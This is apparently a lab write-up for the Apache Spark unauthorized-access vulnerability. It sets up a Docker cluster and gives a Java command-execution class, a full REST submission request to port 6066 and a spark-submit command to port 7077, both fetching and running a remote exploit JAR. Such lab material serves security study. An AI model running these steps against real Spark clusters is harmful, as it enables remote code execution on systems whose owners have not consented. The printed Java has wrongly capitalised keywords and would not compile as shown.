


# Apache Spark Unauthorized Access Vulnerability

Apache Spark is a cluster computing system that allows users to submit applications to the management node and distribute them to the cluster for execution. If the management node does not start ACL (access control), we will be able to execute arbitrary code in the cluster.

Reference link:

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## vulnerability environment

Execute the following command to start an Apache Spark cluster in standalone mode. There is a master and a slave in the cluster:

```
Docker-compose up -d
```

After the environment is started, you can see the master's management page by visiting `http://your-ip:8080`. You can see the management page of the slave by visiting `http://your-ip:8081`.

## Vulnerability

The nature of the vulnerability is that an unauthorized user can submit an application to the management node, which is actually malicious code.

There are two ways to submit:

1. Utilize the REST API
2. Use the submissions gateway (integrated in port 7077)

The application can be Java or Python, which is the simplest class, such as (see link 1):

```java
Import java.io.BufferedReader;
Import java.io.InputStreamReader;

Public class Exploit {
  Public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    For (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("=================================================== ===");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  Private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    Try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      While ((line = reader.readLine()) != null) {
        Output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    Return output.toString();
  }
}
```

Compile it into a JAR and put it on any HTTP or FTP, such as `https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`.

### Submit an application using the REST API

In standalone mode, the master will start an HTTP server on port 6066, and we submit a REST-formatted API to this port:

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

Among them, `spark.jars` is the compiled application, mainClass is the class to be run, and appArgs is the parameter passed to the application.



The returned package has a submissionId, and then access `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout` to view the execution result:



Note that the submission application is in the master, and the results are viewed in the slave that executes the application (the default port 8081). In actual combat, there may be more than one slave.

### Using the submissions gateway

If the 6066 port is inaccessible or has permission control, we can use the master's main port 7077 to submit the application.

The method is to use the script `bin/spark-submit` that comes with Apache Spark:

```
Bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar Id
```

If the master parameter you specify is the rest server, the script will first try to use the rest api to submit the application; if it is found to be not the rest server, it will be downgraded to use the submission gateway to submit the application.

The way to view the results is the same as before.